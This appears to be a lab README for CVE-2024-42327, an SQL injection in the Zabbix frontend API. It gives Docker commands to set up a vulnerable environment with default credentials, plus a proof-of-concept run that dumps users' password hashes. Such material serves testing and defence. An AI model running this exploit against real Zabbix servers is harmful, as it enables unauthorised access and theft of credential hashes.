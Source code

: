 # Title
A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.

Vulnerable versions:
6.0.0–6.0.31, 6.4.0–6.4.16 and 7.0.0.

## Metrics
CVSSv2: N\A   
CVSSv3: 9.9 (Critical)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Find Zabbix Web IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' zabbix-web-nginx-mysql
```
Default login/password:
`Admin:zabbix`

Stop Environment and remove network
```bash
docker compose down
docker network rm zabbix-cve-2024-42327-net
```

## Detection and exploitation example
### PoC Exlpoitation:
```bash
git clone https://github.com/aramosf/cve-2024-42327.git
```
```bash
❯ python3 cve-2024-42327.py -u "http://172.90.240.1:8080/api_jsonrpc.php" -n Admin -p 'zabbix'   
Valid session token: 649f9fe1a5cbbafa5a68b30a473037cc
Admin, Zabbix, Administrator, 1, $2y$10$92nDno4n0Zm7Ej7Jfsz8WukBfgSS/U0QkIuu8WkJPihXBb2A1UrEK
guest, guest, , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
user, user, , 3, $2y$10$vu4VHsEyUnjEJaG8VIDPXewncu3eMQfZtYlD5JmjnRQP97pzRGXo.

# Default guest
❯ python3 cve-2024-42327.py -u "http://172.90.240.1:8080/api_jsonrpc.php" -n guest -p ''
Valid session token: 2ec325bca4aea414ee037b90a5fec463

# User with API access (User role and Guest group)
❯ python3 cve-2024-42327.py -u "http://172.90.240.1:8080/api_jsonrpc.php" -n user -p 'p@$$w0rd1234'
Valid session token: 577d935e6c4bd7b9c6e1895fcc00b666
guest, guest, , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
user, user, , 3, $2y$10$vu4VHsEyUnjEJaG8VIDPXewncu3eMQfZtYlD5JmjnRQP97pzRGXo.
```

## Exploits and PoCs
[https://github.com/aramosf/cve-2024-42327](https://github.com/aramosf/cve-2024-42327)

## Nuclei Template

## CTF Rooms

## References
[SecurityOnline.info: PoC Exploit Releases for Critical Zabbix Vulnerability – CVE-2024-42327](https://securityonline.info/poc-exploit-releases-for-critical-zabbix-vulnerability-cve-2024-42327/)   
[NIST: CVE-2024-42327](https://nvd.nist.gov/vuln/detail/CVE-2024-42327)   
[Github: zabbix-docker](https://github.com/zabbix/zabbix-docker/)   
[Docker Hub: zabbix](https://hub.docker.com/u/zabbix)   
[Zabbix Documentation: Installation from containers](https://www.zabbix.com/documentation/current/en/manual/installation/containers)   
